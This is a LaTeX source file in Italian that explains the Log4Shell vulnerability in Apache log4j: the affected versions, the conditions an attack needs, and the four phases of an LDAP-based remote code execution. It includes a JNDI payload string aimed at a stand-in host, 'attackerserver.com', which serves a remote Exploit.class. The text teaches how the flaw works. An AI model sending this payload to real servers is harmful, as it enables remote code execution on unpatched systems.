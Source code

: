 \documentclass[a4paper, 12pt]{article}
\begin{document}
I requisiti per considerare un sistema una potenziale vittima di questo tipo di attacchi sono:
\begin{itemize}
    \item Un server con una versione di Apache log4j compresa fra la \verb!2.0-beta9! e la \verb!2.14.1!.
    
    \item Un endpoint in ascolto su qualsiasi protocollo (HTTP, TCP, \dots) che permetta all'attaccante di inviare il payload malevolo
    
    \item Un'istruzione che effettui il log tramite log4j della stringa ricevuta.
\end{itemize}



\subsection{Fasi dell'attacco}
Un'attacco che sfrutta la vulnerabilità Log4Shell con il vettore LDAP per ottenere una RCE si struttura in 4 fasi principali:

\begin{enumerate}
    \item L'attaccante attraverso una richiesta attuata con qualsiasi portocollo (HTTP, TCP, \dots) invia al server target il payload malevolo con l'URL JNDI:
    \begin{center}
        \verb!${jndi:ldap://attackerserver.com:1389/Exploit}!
    \end{center}
    all'inerno di un campo testuale che verrà successivamente loggato dalla applicazione con Log4j. 
    
    \item Il logger parserizza il payload ed effettua una richiesta tramite JNDI al server \verb!attackerserver.com!, controllato dall'attaccante, alla ricerca dell'oggetto \verb!Exploit!.
    
    \item Il sever LDAP dell'attaccante risponde fornendo il path di un file Java compilato (\verb!http://attackerserver.com/Exploit.class!) contenuto in un secondo server malevolo remoto.
    
    \item A questo punto l'applicazione vulnerabile carica il file remoto \verb!Exploit.class!, instanziando l'oggetto Java ed eseguendo il codice del suo costruttore. Tale operazione consente all'attaccante di ottenere i privilegi di esecuzione di codice remoto sull'host.
\end{enumerate}
\end{document}
